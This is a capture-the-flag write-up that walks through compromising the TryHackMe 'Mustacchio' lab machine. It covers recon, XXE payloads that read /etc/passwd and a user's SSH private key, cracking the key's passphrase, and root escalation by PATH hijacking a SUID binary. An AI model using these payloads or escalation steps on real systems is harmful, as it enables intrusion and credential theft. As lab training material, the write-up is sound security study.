 ### Mustachio

Easy boot2root Machine

## Recon

As at the beginning of every hack we need to collect information and I started with NMap using the command ```nmap -sV -sC mustachio.thm -p-``` and got this answer:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After that I went to the site to get my first impressions and in the meantime I left Dirsearch running using the command ```dirsearch -w /usr/share/wordlists/dirb/big.txt -u mustachio.thm```.

![](Scrrenshot_1.png)

When I looked at the terminal that was running Dirsearch it brought me this:

```
[22:13:19] 301 -  303B  - /custom  ->  http://ctf.thm/custom/   
[22:13:36] 301 -  302B  - /fonts  ->  http://ctf.thm/fonts/   
[22:13:48] 301 -  303B  - /images  ->  http://ctf.thm/images/
[22:14:35] 200 -   28B  - /robots.txt                     
[22:14:40] 403 -  272B  - /server-status  
```

In the Custom folder I found a file called "user.bak" in mustachio.thm/custom/js

![](Scrrenshot_2.png)

I downloaded the file and opened a terminal in the Downloads folder and typed the command ```strings user.bak```. Inside the file I found a username called admin and a password in hash format. So I used crackstation.net to crack the password and this was the result:

## Vulnerability Analysis and Exploration

![](Scrrenshot_3.png)

Wow! We managed to crack the hash and get the password, we are on the right path. Let's keep it there because we'll be using it in the future.
I explored the other directories that I found with Dirsearch but I didn't find anything interesting. Then I went to HTTP port 8765 and took the opportunity to use Dirsearch on it too:

![](Scrrenshot_4.png)

Now we find an admin panel and we can use the credentials found on port 80.

![](Scrrenshot_5.png)

Yes! We managed to get into the admin panel, now we need to take a look at this panel and find out its functions.
Well, after a while of looking for something in the admin panel I ended up intercepting the request I made to the server when I wrote something in the comments part. So I decided to look at the request response and found this:

![](Scrrenshot_6.png)

Wow! We found another file on the web, let's download it and see what's in it.

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

We found a message that was written in XML, what's the flaw using XML ? Are you thinking the same thing as me? Yes XXE is the fault, I'm already happy to get to that part lol. I applied the same message and gave this result:

![](Scrrenshot_7.png)

Well, we saw above that there was a message telling Barry that his SSH key was ready, when I got this username I tried to crack his SSH password but it gave this result: ```[ERROR] target ssh: //mustachio.thm:22/ does not support password authentication (method reply 4).```.

So I tried to log in using SSH and this error came up: ```barry@mustachio.thm: Permission denied (publickey).```.

So we need an id_rsa.pub to get one of the first steps to access the system, well let's enumerate more users, I will use a payload of XXE to get /etc/passwd.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Scrrenshot_8.png)

Yes! We were able to enumerate the users, so we have 3 users root, joe, barry. We'll save them for future exploration. Well now that I know the users I'm going to try to get the id_rsa.pub starting with the user Barry.

![](Scrrenshot_9.png)

Good we got it, I tried it with the user Joe but I wasn't successful. Now copy id_rsa.pub and paste it into your id_rsa.pub on your system. Example: ```echo "<target id_rsa.pub> >> /root/.ssh/id_rsa.pub``` or with Kali user ```echo "<target id_rsa.pub> >> /home/kali/ .ssh/id_rsa.pub```.

Well, since Barry has an id_rsa.pub he probably has an id_rsa too. So let's try to get his RSA.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Scrrenshot_10.png)

Yes! We got id_rsa and id_rsa.pub, id_rsa just this half pie more than to fix it, it just has to look like this model:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
(...)
```

There we fixed the id_rsa. Copy and paste it into your folder and allow it using the command ```chmod 600 <id_rsa>``` and now let's try to log into the machine with the command ```ssh -i <id_rsa> barry@mustachio.thm ```.

Well here is asking for a key password. We have to crack this id_rsa and figure out the password, so let's use the ssh2john.py tool, you can find it by typing the command ```locate ssh2john.py``` but if it doesn't exist you will need to download the John tool first.

Now I'm going to turn id_rsa into a bunch of characters that only John understands for us to crack the password. Run these commands:

```
/usr/share/john/ssh2john.py <id_rsa> > john.txt

john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Good! We managed to crack the RSA password! Now just log in with the command ```ssh -i <id_rsa> barry@mustachio.thm```. It's asking for password so let's put in the password we got.

## Post Exploitation
![](Scrrenshot_11.png)

Wow we are in the system! That's really good! Now just get the user.txt flag.

Now we need to escalate privilege to become root, let's go to the home/joe folder. It has a file called live_log and if we type ```ls -la live_log``` we will see this ```-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log```.
This indicates that this file has SUID and can be used to scale privileges, since if we run this file with just the ```./live_log``` command we will be running it with ROOT.

When I looked at this file I thought of typing ```strings live_log``` and found something interesting in it:

![](Scrrenshot_12.png)

Observing this I saw that it was a command so I copied the command and tried to run it with the user Barry but it gave Permission Denied, this is more proof that when we run a file that has rwsr we are running as root.

When I saw this I quickly remembered TryHackMe's Kenobi room:

![](Scrrenshot_13.png)

I saw that we could change the tools folder from /usr/bin and a custom one like /tmp/attacker and create our own tool like the tail that was mentioned inside live_log. What if we change /usr/bin to /tmp/attacker and create a tool called tail and put a shell inside it? Does it work? Let's test it, first let's create a folder inside /tmp called attacker ```mkdir /tmp/attacker``` and then go into it.
Now let's change the /usr/bin folder to /tmp/attacker using the command ```export PATH=/tmp/attacker:$PATH```.

Now we're going to create the tail file, let's add this to it:

```echo '#!/bin/bash' > tail```

```echo '/bin/bash' >> tail```

After that let's type ```chmod +x tail```. Now let's go back to the live_log folder and let's run it.

![](Scrrenshot_14.png)

GG! Yes! We managed to hack the machine and get the root.txt flag. And so we finished another CTF. It is very rewarding to be able to hack a machine.

Thanks for reading my Writeup, I have a YouTube channel if you can subscribe it will help me a lot
https://www.youtube.com/channel/UCol7qlIUc0o0JKmdrmTWQtA

To the next :)
